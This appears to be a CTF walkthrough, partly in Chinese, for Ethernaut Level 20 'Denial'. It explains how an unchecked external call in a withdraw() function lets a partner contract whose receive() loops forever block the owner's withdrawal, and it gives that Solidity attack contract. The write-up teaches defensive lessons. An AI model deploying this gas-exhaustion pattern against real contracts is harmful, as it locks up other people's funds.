

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 20 - Denial](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目的是要阻止 owner 在 withdraw 的时候提取资产


## 漏洞

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

我们看一下 `withdraw()` 函数的实现细节:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% 的余额
        partner.call{value:amountToSend}(""); // 发送eth给 partner
        payable(owner).transfer(amountToSend); //发送eth给 owner 

        //无关代码
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

这里又两个external calls:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

给owner转账的 `transfer` 没有什么操作空间. 但是, `call` 转账时，我们可以在`receive()`实现更多的逻辑. 为了不给owner转账，我们只需要在调用`call`时，直接消耗完所有的gas，则会直接错误`outofgas`；这样给owner转账的时候，就会失败了:

```javascript
receive() external payable {
    while (true) {}
}
```

## 解答

实现攻击合约:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    receive() external payable {
        while (true) {}
    }

    // receive() external payable {
    //     revert();
    // }
}

```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DenialTest  -vvvvv
```

## 要点

- 需要检测`call` 的返回值.
- 使用 `call` 的时候，需要指定gas.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
